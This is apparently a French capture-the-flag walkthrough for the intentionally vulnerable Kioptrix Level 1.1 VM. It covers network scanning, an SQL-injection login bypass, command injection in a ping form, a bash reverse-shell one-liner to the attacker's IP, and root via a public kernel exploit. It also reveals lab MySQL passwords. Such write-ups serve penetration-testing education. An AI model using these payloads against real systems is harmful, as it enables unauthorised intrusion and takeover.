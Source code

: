 # Kioptrix: Level 1.1 (#2)

## Détails de la machine

**Nom :** Kioptrix: Level 1.1 (#2)\
**Date de sortie :** 11 Février 2011\
**Lien de téléchargement :** [http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar](http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar)\
**Niveau :** Facile\
**Objectif(s) :** obtenir un accès "root"\
**Description :**\
****`This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.` \
``\
`This is the second release of #2. First release had a bug in it with the web application`\
`2012/Feb/09: Re-releases`\
`2011/Feb/11: Original Release`

## Reconnaissance

`netdicover` permet d'identifier l'adresse IP 192.168.1.15 comme étant notre victime :

![](../../../.gitbook/assets/b236a71d370dbb557718fdf87b3310de.png)

Suivi de `nmap` afin de scanner les services s'exécutant sur la machine :

![](../../../.gitbook/assets/3c98b193738de5640529c7488d16abb0.png)

Résultat : un service SSH, un serveur web (en version HTTP et HTTPS), un serveur d'impression CUPS ainsi qu'une base de données MySQL.

### Serveur HTTP

On commence directement par l'analyse du serveur web car je n'ai rien identifié de pertinent concernant la version 3.9 d'OpenSSH. Les résultats du `dirb` ainsi que du `nikto` ne donne rien de particulièrement intéressant non plus :

![](../../../.gitbook/assets/632f2601b754f23875ba841fe066b162.png)

La sortie est tronquée avec un -r mais rien d'intéressant même dans les sous-dossiers. Voici la sortie du `nikto` :

![](../../../.gitbook/assets/25d8f8c69663c0bd739f30efba3f3a0c.png)

On passe donc à l'analyse manuelle du site web. La page d'accueil est une mire d'authentification. Après quelques weaks credentials on tente de détecter une injection SQL avec un simple `' OR 1=1 --` :

![](../../../.gitbook/assets/138b88530829224c303ba8a6da81f596.png)

Cela fonctionne et nous permet de récupérer la prochaine page qui est une fonction permettant de pinger une machine du réseau (ça sent l'injection de commande) :

![](../../../.gitbook/assets/387198eb410ca24f85d8650701874168.png)

On tente la plus simple des injections avec le caractère `;` permettant de séparer des commandes :

![](../../../.gitbook/assets/c740bfb3515f48418d595e5af47b73cd.png)

On récupère l'id du compte apache qui exécute le serveur web. L'injection de commande est confirmée.

### Serveur d'impression

Cups est un serveur d'impression permettant aux utilisateurs de configurer les différents imprimantes. Pour cela il est également possible d'accéder au service par son interface web, dans notre cas un "403 - Forbidden" nous l'interdit :

![](../../../.gitbook/assets/88a52f4707669bd539b88b458ac4fc88.png)

La version utilisée de CUPS est la version 1.1, elle est vulnérable au moins à la CVE suivante (car je n'ai pas beaucoup cherché mais il semble que d'autres CVE sont disponibles pour cette version) :

![](../../../.gitbook/assets/d703a626c7f475515f7a4673dc41a387.png)

### MySQL

Nous ne connaissons pas la version du système de base de données afin de déterminer si le service est vulnérable à certaines CVE.

## Exploitation

### Injection de commande

Il est facile de récupérer un shell grâce à l'injection de commande. `netcat` ne semble pas disponible sur la machine cible, je suis donc passé par un `bash` grâce à la commande `;bash -i >& /dev/tcp/192.168.1.89/5555 0<&1`. Afin de l'utiliser dans la requête POST je l'ai préalablement encodée avec un encodage URL :&#x20;

![](../../../.gitbook/assets/6fe012f0214d723cfac732eb5a647144.png)

Côté machine d'attaque, un `netcat` en écoute sur le port 5555 :

![](../../../.gitbook/assets/4ba3d8e2bcdca66ab9ba25049194b65d.png)

## Élévation de privilèges

Un `uname -a` nous indique une version de kernel 2.6.9 sur une Fedora 4.5 qui est vulnérable à la CVE-2009-2698 :

![](../../../.gitbook/assets/b7815d98dd05fd179ce4526541faac60.png)

Voici la CVE :

![](../../../.gitbook/assets/af4235a012598d0cfece5e368071a386.png)

Une fois l'exploit ([https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)) compilé et exécuté, nous sommes "root" :

![](../../../.gitbook/assets/b0bc23db78339563d8cf5087c24d1552.png)

## Conclusion

Il est également possible de récupérer les credentials de MySQL en affichant le fichier "index.php" du site web (soit une fois le shell récupéré ou alors via l'injection de commande) :

![](../../../.gitbook/assets/1dcd2f0b309cefd3548130d52d19cec1.png)

L'accès est refusé à partir d'une autre machine, mais une fois le shell récupéré grâce à l'injection de commande le contenu de la base est accessible :

![](../../../.gitbook/assets/d386607ad7c9b223571ecc7e9baec8b5.png)

Mais aucun des mots de passe ("hiroshima", ou "66lajGGbla") ne semble être le mot de passe du compte de "john" pour un accès en SSH. Pour information voici le contenu du fichier "/etc/passwd" :

![](../../../.gitbook/assets/ed4a366ae26ff7fd9393cb853207f4b6.png)

Je n'ai pas était plus loin dans la compromission des comptes existants, aucun mot de passe ne semble traîner dans un fichier quelconque.

Cette machine était très facile et donc parfaite pour commencer le pentest. Rien de compliqué, des failles web et un LPE à coup d'exploit d'un kernel vulnérable.

